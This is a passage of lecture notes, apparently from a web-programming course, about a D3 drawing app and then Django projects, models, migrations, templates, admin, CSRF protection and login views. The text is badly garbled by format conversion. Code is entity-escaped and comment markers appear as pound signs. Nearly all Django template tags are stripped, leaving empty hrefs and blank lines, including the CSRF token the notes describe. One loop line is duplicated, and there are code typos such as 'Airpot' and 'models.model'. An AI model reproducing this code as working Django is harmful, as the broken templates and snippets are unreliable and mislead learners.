-   &lt;option value=&quot;red&quot;&gt;Red&lt;/option&gt;

-   &lt;option value=&quot;blue&quot;&gt;Blue&lt;/option&gt;

-   &lt;option value=&quot;green&quot;&gt;Green&lt;/option&gt;

-   &lt;/select&gt;

-   &lt;select id=&quot;thickness-picker&quot;&gt;

-   &lt;option value=1&gt;1&lt;/option&gt;

-   &lt;option value=2&gt;2&lt;/option&gt;

-   &lt;option value=3 selected&gt;3&lt;/option&gt;

-   &lt;option value=4&gt;4&lt;/option&gt;

-   &lt;option value=5&gt;5&lt;/option&gt;

-   &lt;option value=6&gt;6&lt;/option&gt;

-   &lt;option value=7&gt;7&lt;/option&gt;

-   &lt;option value=8&gt;8&lt;/option&gt;

-   &lt;option value=9&gt;9&lt;/option&gt;

-   &lt;option value=10&gt;10&lt;/option&gt;

-   &lt;/select&gt;

-   &lt;button id=&quot;erase&quot;&gt;Erase&lt;/button&gt;

-   &lt;/div&gt;

-   &lt;/div&gt;

-   &lt;svg id=&quot;draw&quot;&gt;

-   &lt;/svg&gt;

-   &lt;/body&gt;

> The more complex JavaScript now takes into account these features.

-   document.addEventListener(&apos;DOMContentLoaded&apos;, () =&gt; {

-   

-   // state

-   let draw = false;

-   

-   // elements

-   let points = &lbrack;&rbrack;;

-   let lines = &lbrack;&rbrack;;

-   let svg = null;

-   

-   function render() {

-   

-   // create the selection area

-   svg = d3.select(&apos;#draw&apos;)

-   .attr(&apos;height&apos;, window.innerHeight)

-   .attr(&apos;width&apos;, window.innerWidth);

-   

-   svg.on(&apos;mousedown&apos;, function() {

-   draw = true;

-   const coords = d3.mouse(this);

-   draw_point(coords&lbrack;0&rbrack;, coords&lbrack;1&rbrack;, false);

-   });

-   

-   svg.on(&apos;mouseup&apos;, () =&gt;{

-   draw = false;

-   });

-   

-   svg.on(&apos;mousemove&apos;, function() {

-   if (!draw)

-   return;

-   const coords = d3.mouse(this);

-   draw_point(coords&lbrack;0&rbrack;, coords&lbrack;1&rbrack;, true);

-   });

-   

-   document.querySelector(&apos;#erase&apos;).onclick = () =&gt; {

-   for (let i = 0; i &lt; points.length; i++)

-   points&lbrack;i&rbrack;.remove();

-   for (let i = 0; i &lt; lines.length; i++)

-   lines&lbrack;i&rbrack;.remove();

-   points = &lbrack;&rbrack;;

-   lines = &lbrack;&rbrack;;

-   }

-   

-   }

-   

-   function draw_point(x, y, connect) {

-   

-   const color = document.querySelector(&apos;#color-picker&apos;).value;

-   const thickness =
    document.querySelector(&apos;#thickness-picker&apos;).value;

-   

-   if (connect) {

-   const last_point = points&lbrack;points.length - 1&rbrack;;

-   const line = svg.append(&apos;line&apos;)

-   .attr(&apos;x1&apos;, last_point.attr(&apos;cx&apos;))

-   .attr(&apos;y1&apos;, last_point.attr(&apos;cy&apos;))

-   .attr(&apos;x2&apos;, x)

-   .attr(&apos;y2&apos;, y)

-   .attr(&apos;stroke-width&apos;, thickness &ast; 2)

-   .style(&apos;stroke&apos;, color);

-   lines.push(line);

-   }

-   

-   const point = svg.append(&apos;circle&apos;)

-   .attr(&apos;cx&apos;, x)

-   .attr(&apos;cy&apos;, y)

-   .attr(&apos;r&apos;, thickness)

-   .style(&apos;fill&apos;, color);

-   points.push(point);

-   }

-   

-   render();

-   });

    -   All points and lines are saved in arrays to allow them to be
        cleared when the user erases the canvas.

    -   Now, draw_point takes three arguments: the coordinates of the
        point and whether it should be connected to the previous point.
        It should not be connected when the mouse is clicked for the
        first time, but it should be connected whenever the mouse is
        moved.

    -   The draw_point function grabs the selected color and thickness,
        and, if the last point should be connected, it also grabs that
        point. A line with endpoints at the old point and the mouse
        location is then drawn and added to the array lines.

    -   The point is drawn as before, but also added to the
        array points.

    1.  [Django](https://courses.edx.org/courses/course-v1:HarvardX+CS50W+Web/courseware/3b4d945d89eb40bcad81746770a81c3b/6bf9d46f806143c380af1ba8cb190d81/)

> **Notes - Lecture 7: Django**
>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<!--~~~~~~~~~~~~~~~~~~~ 22.  (xx) ~~~~~~~~~~~~~~~~~~-->
<p align="left" width="100%">

</p>
<!-- {width="1.7333333333333334in" height="0.5997681539807524in"} -->
>
> **Django**
>
> Web Framework
>
> Django is a free and open-source web framework, written in Python,
> which follows the model-view-template architectural pattern. It is
> maintained by the Django Software Foundation, an independent
> organization established as a 501 non-profit

# Django

-   Django is a much heavier weight web framework than Flask with a lot
    more out-of-the-box features that would've had to be built up
    manually and repetitively with a micro-framework like Flask.

## Using Django

-   Django divides all of its web applications into 'projects', composed
    of different parts. To start a new project, run django-admin
    startproject projectname.

### Project Components
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<!--~~~~~~~~~~~~~~~~~~~ 23.  (xx) ~~~~~~~~~~~~~~~~~~-->
<p align="left" width="100%">

</p>
<!-- (./images/image023.png){width="4.941219378827647in" height="3.2984809711286087in"} -->

### 
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<!--~~~~~~~~~~~~~~~~~~~ 24.  (xx) ~~~~~~~~~~~~~~~~~~-->
<p align="left" width="100%">

</p>
<!-- ./images/image024.png){width="4.974652230971128in" height="3.632562335958005in"} -->

-   Django creates a number of files with a new project:

    -   &lowbar;&lowbar;init&lowbar;&lowbar;.py : defines the directory projectname as a Python
        'package', a collection of multiple Python files

        -   Django is built on the idea of packages. A web application
            can be made up of multiple packages, each serving a slightly
            different purpose, and Django will help manage these.

    -   manage.py : a Python script that can be used to perform useful
        operations on a web application

    -   settings.py : basic settings, like time zone, other applications
        installed in the project, what sort of database is used, etc.

    -   urls.py : determines what URLs/routes can be accessed when using
        the web application

    -   wsgi.py : a file that helps to deploy an application to a web
        server

    -   project_name/ : the directory for the project that contains all
        of the above files by default

-   A Django project consists of one or more Django applications, or
    apps, which serves a particular purpose.

### A Basic Application

-   To create an app, inside the project directory, run python manage.py
    startapp appname. This will create a directory appname inside of the
    project directory. appname will contain a number of files
    automatically.

-   Inside of appname, views.py is analogous to application.py for a
    Flask application. It contains the code that determines what the
    user sees at a particular route.At first, it will look like this:

-   from django.shortcuts import render

-   

-   &pound; Create your views here.

-   All view functions should take the request object as an argument.
    Like in Flask, this object will contain information about what sort
    of arguments were passed in to the request, etc. A basic view might
    just return a simple HTTP response.

-   from django.http import HttpResponse

-   from django.shortcuts import render

-   

-   &pound; Create your views here.

-   def index(request):

-   return HttpResponse(&quot;Hello, world!&quot;)

-   That basic view, however, does not specify what route it is at. To
    do so, a new urls.py must be created inside the appname directory
    (this is a different urls.py than the project-level file of the same
    name). Each application will often have its own routes, and these
    separate urls.py help to signal that difference in functionality,
    keep things organized, and make apps easily reusable in other
    projects. appname/urls.py could look like this:

-   from django.urls import path

-   

-   from . import views

-   

-   urlpatterns = &lbrack;

-   path(&quot;&quot;, views.index),

-   &rbrack;

-   from . import views imports views.py from the appname directory, so
    that URLs can be linked to views.

-   urlpatterns is a list of all the URLs supported by this application.

-   &quot;&quot; indicates the empty route.

-   When the Django project starts up, it will only check the urls.py at
    the project level. So, the final step before this basic application
    is actually usable, appname/urls.py must be linked to the
    project's urls.py, which starts off with some code in it already.

-   from django.contrib import admin

-   from django.urls import include, path

-   

-   urlpatterns = &lbrack;

-   path(&quot;admin/&quot;, admin.site.urls)

-   &rbrack;

-   To link the new path, simply add the path to urlpatterns:

-   urlpatterns = &lbrack;

-   path(&quot;&quot;, include(&quot;appname.urls&quot;)),

-   path(&quot;admin/&quot;, admin.site.urls)

-   &rbrack;

    -   The reason for this apparent complexity is to allow for routing
        amongst multiple different applications. This urls.py serves as
        the dispatch point for all those lower-level urls.py files.

-   To run the application, run python manage.py runserver.

## Flights Revisited

-   To demonstrate Django more completely, the next example will
    reconstruct and expand upon the flight manager application that was
    originally built with Flask. The project name will be djangoair, and
    it will contain an application called flights.

-   To start off, flights/urls.py:

-   from django.urls import path

-   

-   from . import views

-   

-   urlpatterns = &lbrack;

-   path(&quot;&quot;, views.index),

-   &rbrack;

    -   These urls should be linked to djangoair/urls.py in the same way
        as the previous example.

-   flights/views.py:

-   from django.http import HttpResponse

-   from django.shortcuts import render

-   

-   &pound; Create your views here

-   def index(request):

-   return HttpResponse(&quot;Flights&quot;)

-   This application is now at the same point as the previous example.
    The next step is to add the database. Django was designed for
    interacting with data, so it makes it very easy to do
    so. flights/models.py looks like this right now:

-   from django.db import models

-   

-   &pound; Create your models here

    -   This the file to define the classes which will define the types
        of data being stored in the database. The information to be
        contained here is very analagous to the information created with
        Flask-SQLAlchemy.

-   A model for a flight might look like this:

-   class Flight(models.model):

-   origin = models.CharField(max_length=64)

-   destination = models.CharField(max_length=64)

-   duration = models.IntegerField()

    -   Inherting models.model just establishes this class as a Django
        model.

    -   Django has a number of built-in types of fields that map to
        different types of data in a SQL database, for instance.

-   Now, as with new URLs, the models must be linked to the Django
    project. In djangoair/settings.py, there is a list
    called INSTALLED_APPS, pre-populated with Django's installed apps.
    To add the flights app, flights.app.FlightsConfig should be added to
    that list.

-   INSTALLED_APPS = &lbrack;

-   &apos;flights.apps.FlightsConfig&apos;,

-   &apos;django.contrib.admin&apos;,

-   &apos;django.contrib.auth&apos;,

-   &apos;django.contrib.contenttypes&apos;,

-   &apos;django.contrib.sessions&apos;,

-   &apos;django.contrib.messages&apos;,

-   &apos;django.contrib.staticfiles&apos;,

-   &rbrack;

-   FlightsConfig is the class the defines the settings for
    the flights application.

### Migrations

-   When building a web application, very rarely will all the tables be
    defined will all the correct columns from the beginning. Usually,
    tables are built up as the application grows, and the database will
    be modified. It would be tedious to change both the Django model
    code and run the SQL commands to modify the database.

-   Django's solution to this problem 'migrations'. Django automatically
    detects and changes to models.py and automatically generates the
    necessary SQL code to make the necessary changes.

-   To create the table for managing flights inside the database,
    run python manage.py makemigrations. This will look through model
    files for any changes and generate a 'migration', which represents
    the necessary changes for the database. Running this command will
    create a file migrations/0001_initial.py:

-   &pound; Generated by Django 2.0 on 2018-07-19 22:14

-   

-   from django.db import migrations, models

-   

-   class Migration(migrations.Migration):

-   

-   initial = True

-   

-   dependencies = &lbrack;

-   &rbrack;

-   

-   operations = &lbrack;

-   migrations.CreateModel(

-   name=&apos;Flight&apos;,

-   fields=&lbrack;

-   (&apos;id&apos;, models.AutoField(auto_created=True, primary_key=True,
    serialize=False, verbose_name=&apos;ID&apos;)),

-   (&apos;origin&apos;, models.CharField(max_length=64)),

-   (&apos;destination&apos;, models.CharField(max_length=64)),

-   (&apos;duration&apos;, models.IntegerField()),

-   &rbrack;,

-   ),

-   &rbrack;

-   -   Inside the class Migration is a list operations, which contains
        everything that should happen to the database. In this case, the
        model Flight should be created, with
        fields id, origin, destination, and duration.

    -   Note that id was never specified in models.py. Django adds this
        column by default.

-   The command python manage.py sqlmigrate flights 0001 will produce
    the SQL code that actually corresponds to this migration. This
    command doesn't need to be run, but it is helpful in demonstrating
    what's actually going on. The SQL command is very similar to what
    has been shown before, but it didn't need to be written. It is all
    generated by Django's migration system.

-   To actually apply this migration to the database, run python
    manage.py migrate, which will apply the new migration as well as
    some default Django ones.

-   The database that is actually being used here is defined
    in djangoair/settings.py in the DATABASES dictionary. By default, it
    uses a SQLite 3 (another version of SQL that uses a local file for a
    database) and the database file db.sqlite3.

### Django Shell

-   Django provides a shell, similar to Python's interpreter, that
    allows for direct modification of the database. Start the shell by
    running python manage.py shell. Inside the shell, Python commands
    can be run.

-   To create a new flight, the following commands can be run inside the
    shell.

-   from flights.models import Flight

-   

-   f = Flight(origin=&quot;New York&quot;, destination=&quot;London&quot;,
    duration=415)

-   f.save()

-   

-   Flight.objects.all()

-   &pound; Returns &lt;QuerySet &lbrack;&lt;Flight: Flight object(1)&gt;&rbrack;&gt;

    -   f.save() is analogous to SQL's COMMIT.

    -   A QuerySet is like a list, with added functionality.

-   The representation of the QuerySet that the shell returns isn't
    really readable or helpful. To produce a more useful, string
    representation of a flight, a &lowbar;&lowbar;str&lowbar;&lowbar; function can be added
    to Flight class in flights/models.py.

-   def &lowbar;&lowbar;str&lowbar;&lowbar;(self):

-   return f&quot;{self.id} - {self.origin} to {self.destination}&quot;

    -   For any class, not just in Django, a &lowbar;&lowbar;str&lowbar;&lowbar; function
        defines what an object should like look when printed, whether to
        a terminal, an HTML page, etc.

-   Back to the shell:

-   Flight.objects.all()

-   &pound; Returns &lt;QuerySet &lbrack;&lt;Flight: 1 - New York to London&gt;&rbrack;&gt;

-   

-   f = Flight.objects.first()

-   

-   f

-   &pound; Returns &lt;Flight: 1 - New York to London&gt;

-   

-   f.origin()

-   &pound; Returns &apos;New York&apos;

-   

-   f.id

-   &pound; Returns 1

-   

-   f.delete()

-   &pound; Deletes the flight as expected

### Better Models

-   A more robust design for the Flight model would have an id field
    that links to a table of airports instead of just text for origins
    and destinations. To do so, a new Airport model must first be
    created.

-   class Airport(models.Model):

-   code = models.CharField(max_length=3)

-   city = models.CharField(max_length=64)

-   

-   def &lowbar;&lowbar;str&lowbar;&lowbar;(self):

-   return f&quot;{self.city} ({self.code})&quot;

-   Then, the Flight model can be modified appropriately, with origin
    and destination being ForeignKeys.

-   class Flight(models.Model):

-   origin = models.ForeignKey(Airport, on_delete=models.CASCADE,
    related_name=&quot;departures&quot;)

-   destination = models.ForeignKey(Airport, on_delete=models.CASCADE,
    related_name=&quot;arrivals&quot;)

    -   Django models allow for specific behavior when an airport, for
        instance, is deleted. on_delete=models.CASCADE means that if an
        airport is deleted, all flights with that airport as an origin
        or destination will be deleted as well.

    -   related_name allows for the accessing of all flights departing
        from or arriving at a particular airport, using the
        keys deparatures or arrivals.

    -   Note that there is no literal definitions of origin and
        destination as IDs, nor any actual commands for how to associate
        the two tables. The only things specified is
        that origin and destination should be Airports. All of the work
        to make that happen is left to Django.

-   To apply these changes, they must be migrated in the same fashion as
    before. Now, in the shell, it's a lot easier and more intuitive to
    create flights.

-   from flights.models import Airport, Flight

-   

-   jfk = Airport(code=&quot;JFK&quot;, city=&quot;New York City&quot;)

-   lhr = Airport(code=&quot;LHR&quot;, city=&quot;London&quot;)

-   jfk.save()

-   lhr.save()

-   

-   f = Flight(origin=jfk, destination=lhr, duration=415)

-   f.save()

-   

-   f.origin

-   &pound; Returns &lt;Airport: New York City (JFK)&gt;

-   

-   f.origin.code

-   &pound; Returns &apos;JFK&apos;

-   

-   jfk.departures.all()

-   &pound; Returns &lt;QuerySet &lbrack;&lt;Flight: 1 - New York City (JFK) to London
    (LHR)&gt;&rbrack;&gt;

### Rendering Templates

-   Similar to Flask, in order to render an HTML template, the rendered
    template should be returned by the function which handles a route.
    For Django, that's in flights/views.py.

-   def index(request)

-   return render(request, &quot;flights/index.html&quot;)

    -   The second argument to render is simply the path to the template
        to be rendered.

    -   These should be stored in a path like
        so: flights/templates/flights/index.html. Note that render takes
        a path starting from the template folder. The apparent
        redundancy of this path, although not strictly necessary in this
        example, is good practice to avoid issues where multiples
        applications might have their own index.html.

-   index.html can be simple for now.

-   &lt;html&gt;

-   &lt;head&gt;

-   &lt;title&gt;Flights&lt;/title&gt;

-   &lt;/head&gt;

-   &lt;body&gt;

-   &lt;h1&gt;Flights&lt;/h1&gt;

-   &lt;/body&gt;

-   &lt;/html&gt;

-   To display information about flights, Django's templating system,
    which is very similar to Jinja, can be used. Django passes
    information into a template via the context dictionary.

-   from .models import Flight

-   

-   def index(request)

-   context = {

-   &quot;flights&quot;: Flights.objects.all()

-   }

-   return render(request, &quot;flights/index.html&quot;, context)

-   &lt;body&gt;

-   &lt;h1&gt;Flights&lt;/h1&gt;

-   &lt;ul&gt;

-   

-   

-   &lt;li&gt;

-   {{ flight }}

-   &lt;/li&gt;

-   

-   

-   &lt;/ul&gt;

-   &lt;/body&gt;

### Admin

-   Admin is a built in Django app that makes it very easy to add or
    modify existing data on a web page. Note that this is a task that
    would require a good bit of code in Flask. This is perhaps one of
    the most powerful features of Django, especially when it comes to
    dealing with and manipulating data.

-   flights/admin.py starts out like this.

-   from django.contrib import admin

-   

-   &pound; Register your models here.

-   Adding the Airport and Flight models is simple.

-   from django.contrib import admin

-   

-   from .models import Airpot, Flight

-   

-   &pound; Register your models here.

-   admin.site.register(Airport)

-   admin.site.register(Flight)

    -   This allows the admin app to manipulate airports and flights.

-   To access the admin site online, a user must log in. This alone is a
    task that would be quite tedious in Flask, but again, Django comes
    with this functionality built-in. The first step is to create a
    'superuser' account with access to everything: python manage.py
    createsuperuser. Django will then prompt for a username, email
    address, and password. This data will then be entered into a users
    table, entirely taken care of by Django.

-   The admin site is already linked by default in the
    project's urls.py at the admin/ route. On the admin site, a user can
    log in and manipulate the data. The admin interface is
    straightforward and easily navigated. Note that this admin interface
    isn't meant to be used by all users of the website, but rather just
    content managers to dothings like populate models and add
    information, whearas users will view that information in a
    separately rendered page.

### Adding More Routes

-   To add more routes, for specific flight info, for example, the URLs
    just need to be added to flights/urls.py along with the
    corresponding view in flights/views.py and template
    in templates/flights.

-   urlpatterns = &lbrack;

-   path(&quot;&quot;, views.index),

-   path(&quot;&lt;int:flight_id&gt;&quot;, views.flight),

-   &rbrack;

    -   The syntax for creating routes that accept arguments is very
        similar to Flask's.

    -   def flight(request, flight_id):

    -   try:

    -   flight = Flight.objects.get(pk=flight_id)

    -   except Flight.DoesNotExist:

    -   raise Http404(&quot;Flight does not exist&quot;)

    -   context = {

    -   &quot;flight&quot;: flight,

    -   }

    -   return render(request, &quot;flights/flight.html&quot;, context)

    -   Because flight_id was parameter in the URL, flight_id gets
        passed to the flight view.

    -   pk stands for 'primary key'.

    -   DoesNotExist is a special exception built into Django models.

    -   Http404 is another built-in Django feature (imported
        from django.http) that simply raises a 404 error. &apos;&apos;&apos; html

# Flight {{ flight.id }}

-   Origin: {{ flight.origin }}

-   Destination: {{ flight.destination }}

> &apos;&apos;&apos;

-   head contents can be the same as index.html for now. Note the
    current redundancy in HTML templates.

### Template Inheritance

-   Template inheritance for HTML pages works much the same way in
    Django as in Flask. Here's what a generic template base.html could
    look like:

-   

-   &lt;html&gt;

-   &lt;head&gt;

-   &lt;title&gt;&lt;/title&gt;

-   &lt;/head&gt;

-   &lt;body&gt;

-   

-   

-   &lt;/body&gt;

-   &lt;/html&gt;

-   

-   Now, index.html and flight.html can be simplified.

-   

-   

-   

-   

-   Flights

-   

-   

-   

-   &lt;h1&gt;Flights&lt;/h1&gt;

-   &lt;uL&gt;

-   {% for flight in flights &dollar;}

-   &lt;li&gt;

-   &lt;a href=&quot;{% for flight in flights &dollar;}

-   &lt;li&gt;

-   &lt;a href=&quot;&quot;&gt;{{ flight }}&lt;/a&gt;

-   &lt;/li&gt;

-   

-   &lt;/ul&gt;

-   

-   

> and
>
> 
>
> 
>
> Flight {{ flight.id }}
>
> 
>
> &lt;h1&gt;Flight {{ flight.id }}&lt;/h1&gt;
>
> &lt;ul&gt;
>
> &lt;li&gt;Origin: {{ flight.origin }}&lt;/li&gt;
>
> &lt;li&gt;Destination: {{ flight.destination }}&lt;/li&gt;
>
> &lt;/ul&gt;
>
> &lt;a href=&quot;&quot;&gt;Back to full listing&lt;/a&gt;
>
> 
>
> 

### Model Relationships

-   Before, with Flask and SQL, in order to link passengers to flights,
    there was an flight ID column in the passenger table so that each
    passenger can be associated with a flight. The problem with this
    approach is that each passenger can only be on a single flight. What
    is more desirable is a 'many-to-many' relationship, in which a
    passenger can be on multiple flights and a flight can have multiple
    passengers. A common paradigm for this is to implement an
    'in-between table', which simply has two columns, one for a
    passenger ID and one for a flight ID, with as many rows as are
    necessary. Django allows for this, but does the work of implementing
    the in-between table automatically.

-   The first step is to implement a passenger model
    in flights/models.py.

-   class Passenger(models.Model):

-   first = models.CharField(max_length=64)

-   last = models.CharField(max_length=64)

-   flights = models.ManyToManyField(Flight, blank=True,
    related_name=&quot;passengers&quot;)

-   

-   def &lowbar;&lowbar;str&lowbar;&lowbar;(self):

-   return f&quot;{self.first} {self.last}&quot;

    -   Before, when associating two tables, models.ForeignKey was
        used. models.ManyToManyField allows for the desired behavior of
        a many-to-many relationship.

    -   blank=True allows for a passenger to be be associated with no
        flights.

    -   Like before, related_name allows for the querying of all
        passengers on a given flight.

-   Updating the database as before, with python manage.py
    makemigrations and inspecting the SQL with python manage.py
    sqlmigrate flights 0003 reveals code for creating a
    table flights_passengers, as specified, but also a
    table flights_passengers_flights, which was not specified, but is
    the in-betweent table that was automatically generated.

-   After finishing the migration with python manage.py migrate, the
    shell can be used to try out these new models.

-   from flights.models import Flight, Passenger

-   

-   f = Flight.objects.get(pk=1)

-   f

-   &pound; Returns &lt;Flight: 1 - New York City (JFK) to London (LHR)&gt;

-   

-   p = Passenger(first=&quot;Alice&quot;, last=&quot;Adams&quot;)

-   p.save()

-   

-   p.flights.add(f)

-   p.flights.all()

-   &pound; Returns &lt;QuerySet &lbrack;&lt;Flight: 1 - New York City (JFK) to London
    (LHR)&gt;&rbrack;&gt;

-   

-   f.passengers.all()

-   &pound; Returns &lt;QuerySet &lbrack;&lt;Passenger: Alice Adams&gt;&rbrack;&gt;

-   The flight view and its corresponding HTML can be updated to now
    display passenger info.

-   def flight(request, flight_id):

-   try:

-   flight = Flight.objects.get(pk=flight_id)

-   except Flight.DoesNotExist:

-   raise Http404(&quot;Flight does not exist&quot;)

-   context = {

-   &quot;flight&quot;: flight,

-   &quot;passengers&quot;: flight.passengers.all(),

-   }

-   return render(request, &quot;flights/flight.html&quot;, context)

> and
>
> &lt;h2&gt;Passengers&lt;/h2&gt;
>
> &lt;ul&gt;
>
> 
>
> &lt;li&gt;{{ passenger }}&lt;/li&gt;
>
> 
>
> &lt;li&gt;No passengers&lt;/li&gt;
>
> 
>
> &lt;/ul&gt;

-    executes if passengers is empty.

```{=html}
<!-- -->
```
-   The Passenger model can also be added to admin and modified on the
    admin application in the same was before.

### User Registration

-   The first step to creating a web UI for use flight registration
    might creating a new route, along with a corresponding view and HTML
    template.

-   urlpatterns = &lbrack;

-   path(&quot;&quot;, views.index, name=&quot;index&quot;),

-   path(&quot;&lt;int:flight_id&gt;&quot;, views.flight, name=&quot;flight&quot;),

-   path(&quot;&lt;int:flight_id&gt;/book&quot;, views.book, name=&quot;book&quot;)

-   &rbrack;

-   def book(request, flight_id):

-   try:

-   passenger_id = int(request.POST&lbrack;&quot;passenger&quot;&rbrack;)

-   flight = Flight.objects.get(pk=flight_id)

-   passenger = Passenger.objects.get(pk=passenger_id)

-   except KeyError:

-   return render(request, &quot;flights/error.html&quot;, {&quot;message&quot;: &quot;No
    selection.&quot;})

-   except Flight.DoesNotExist:

-   return render(request, &quot;flights/error.html&quot;, {&quot;message&quot;: &quot;No
    flight.&quot;})

-   except Passenger.DoesNotExist:

-   return render(request, &quot;flights/error.html&quot;, {&quot;message&quot;: &quot;No
    passenger.&quot;})

-   passenger.flights.add(flight)

-   return HttpResponseRedirect(reverse(&quot;flight&quot;, args=(flight_id,)))

    -   This code is written on the assumption that the user will submit
        a web form via a POST request with one argument being
        named passenger.

    -   A KeyError will be raised if either a POST request wasn't
        submitted or the passenger argument wasn't provided, leaving no
        data to be extracted.

    -   flights/error.html will be a new generic template to render any
        number of error messages.

    -   HttpResponseRedirect (imported from django.http) is used to send
        the user to their flight page after being registered for it.

    -   reverse() (imported from django.urls) returns the URL given the
        route name. Arguments can also be passed as a tuple.

-   Assuming that creating a passenger is a separate process from
    registering a passenger for a flight, when the user goes to register
    for a flight, they should only be able to select from created
    passengers. To do so, all the 'non-passengers' on a flight should be
    passed into the flight.html template.

-   def flight(request, flight_id):

-   try:

-   flight = Flight.objects.get(pk=flight_id)

-   except Flight.DoesNotExist:

-   raise Http404(&quot;Flight does not exist&quot;)

-   context = {

-   &quot;flight&quot;: flight,

-   &quot;passengers&quot;: flight.passengers.all(),

-   &quot;non_passengers&quot;: Passenger.objects.exclude(flights=flight).all()

-   }

-   return render(request, &quot;flights/flight.html&quot;, context)

    -   Passenger.objects returns all passenger objects, which can then
        be filtered in a variety of ways. exclude removes objects with a
        particular property; in this case, all passengers on the current
        flight are excluded.

> 
>
> &lt;h2&gt;Add a Passenger&lt;/h2&gt;
>
> &lt;form action=&quot;&quot; method=&quot;post&quot;&gt;
>
> &lt;select name=&quot;passenger&quot;&gt;
>
> 
>
> &lt;option value=&quot;{{ passenger.id }}&quot;&gt;{{ passenger }}&lt;/option&gt;
>
> 
>
> &lt;/select&gt;
>
> &lt;input type=&quot;submit&quot; value=&quot;Book Flight&quot; /&gt;
>
> &lt;/form&gt;
>
> 
>
> &lt;div&gt;No passengers to add.&lt;/div&gt;
>
> 

-   The enclosing if block only allows for registration if there is
    someone to register.

-   Here, the passenger select element is the corresponding data that's
    being sent back to the book view, and
    inside passenger is passenger.id, which is what is expected.

### Cross-Site Request Forgery

-   Although the booking functionality looks nearly complete, when the
    registration form is submitted, Django will not allow the user to be
    redirected to their flight page, and will instead produce a 403
    Forbidden error: CSRF verification failed. Request aborted. CSRF
    (Cross-Site Request Forgery) is a potential security vulnerability
    in forms whereby someone could forge where the form is coming from.
    Django is built in to protect these type of attacks. To allow for
    this nonetheless, a little bit of extra syntax must be added
    whenever dealing with a form in Django.

> &lt;form action=&quot;&quot; method=&quot;post&quot;&gt;
>
> 
>
> &lt;select name=&quot;passenger&quot;&gt;
>
> 
>
> &lt;option value=&quot;{{ passenger.id }}&quot;&gt;{{ passenger }}&lt;/option&gt;
>
> 
>
> &lt;/select&gt;
>
> &lt;input type=&quot;submit&quot; value=&quot;Book Flight&quot; /&gt;
>
> &lt;/form&gt;

-   When the form is submitted, a CSRF token is submitted with it to
    allow Django to verify that is indeed the same web application is
    submitting the request.

### Modifying Admin

-   Django's admin interface can be extended to allow for custom
    behavior. Returning to the flights example, here's
    how flights/admin.py could be modified.

-   from django.contrib import admin

-   

-   from .models import Airport, Flight, Passenger

-   

-   &pound; Register your models here.

-   

-   class PassengerInline(admin.StackedInline):

-   model = Passenger.flights.through

-   extra = 1

-   

-   class FlightAdmin(admin.ModelAdmin):

-   inlines = &lbrack;PassengerInline&rbrack;

-   

-   class PassengerAdmin(admin.ModelAdmin):

-   filter_horizontal = (&quot;flights&quot;,)

-   

-   admin.site.register(Airport)

-   admin.site.register(Flight, FlightAdmin)

-   admin.site.register(Passenger, PassengerAdmin)

> B

-   Because the Flights model does not have a reference to Passengers,
    managing the flights on the admin app does not allow for the
    addition or removal of passengers in the same way that flights can
    be added or removed to a passenger. This can be solved by creating
    the PassengerInline class, which inherits from the built-in
    class StackedInline that allows for the addition of new
    relationships between objects. PassengerInline represents the place
    in the UI where a flight's passengers can be modified.

-   Passenger.flights.through refers to the in-between table linking
    flights and passengers. By setting model to this in-between table,
    that table is associated with PassengerInline.

-   extra = 1 sets the number of passengers which can be edited at a
    time to 1.

-   FlightAdmin is a new class which inherits from ModelAdmin, and
    contains a special set of configurations only to be used when
    editing passengers. These settings are applied by
    passing FlightAdmin to admin.site.regiser.

-   inlines contains all additional inline modification sections for the
    admin page, which in this case only contains PassengerInline.

-   filter_horizontal helps to manipulate what flights a passenger is
    on. It simply allows for an additional UI element on the admin app
    to make it easy to add or remove flights that a passenger is on.

### Static Files

-   To use external static files, like .css or .js files, some special
    Django syntax has to be used. A base template with static files
    might look like this:

> 
>
> &lt;!DOCTYPE html&gt;
>
> &lt;html&gt;
>
> &lt;head&gt;
>
> &lt;title&gt;&lt;/title&gt;
>
> &lt;link rel=&quot;stylesheet&quot; href=&quot;&quot;/&gt;
>
> &lt;/head&gt;
>
> &lt;body&gt;
>
> 
>
> 
>
> &lt;/body&gt;
>
> &lt;/html&gt;
>
> &minus; &apos;&apos; allows for the use of static files.
>
> &minus; Any static file must have its &apos;href&apos; formattaed as &apos;&quot;&quot;&apos;. - Inside of the application directory
> (e.g. &apos;flights&apos;), there should be a &apos;static&apos; directory containing
> a directory for the application which in turn contains any static
> files. So, the entire hierarchy would look like
> &apos;flights/static/flights/styles.css&apos;. This is exactly analogous to
> how templates are stored.

## Login and Authentication

-   Authentication and Authorization is a built-in app designed to
    handle users accounts and log-in functionality. This last example
    features this account system in an app
    called users. users/urls.py looks like this:

-   from django.urls import path

-   

-   from . import views

-   

-   urlpatterns = &lbrack;

-   path(&quot;&quot;, views.index, name=&quot;index&quot;),

-   path(&quot;login&quot;, views.login_view, name=&quot;login&quot;),

-   path(&quot;logout&quot;, views.logout_view, name=&quot;logout&quot;)

-   users/views.py:

-   from django.contrib.auth import authenticate, login, logout

-   from django.http import HttpResponse, HttpResponseRedirect

-   from django.shortcuts import render

-   from django.urls import reverse

-   

-   &pound; Create your views here.

-   

-   def index(request):

-   if not request.user.is_authenticated:

-   return render(request, &quot;users/login.html&quot;, {&quot;message&quot;: None})

-   context = {

-   &quot;user&quot;: request.user

-   }

-   return render(request, &quot;users/user.html&quot;, context)

-   

-   def login_view(request):

-   username = request.POST&lbrack;&quot;username&quot;&rbrack;

-   password = request.POST&lbrack;&quot;password&quot;&rbrack;

-   user = authenticate(request, username=username, password=password)

-   if user is not None:

-   login(request, user)

-   return HttpResponseRedirect(reverse(&quot;index&quot;))

-   else:

-   return render(request, &quot;users/login.html&quot;, {&quot;message&quot;: &quot;Invalid
    credentials.&quot;})

-   

-   def logout_view(request):

-   logout(request)

-   return render(request, &quot;users/login.html&quot;, {&quot;message&quot;: &quot;Logged
    out.&quot;})

    -   django.contrib.auth is Django's authentication package, which
        contains the User model, along with the
        functions authenticate ,login, and logout.

    -   request.user.is_authenticated is true if the user has logged in.
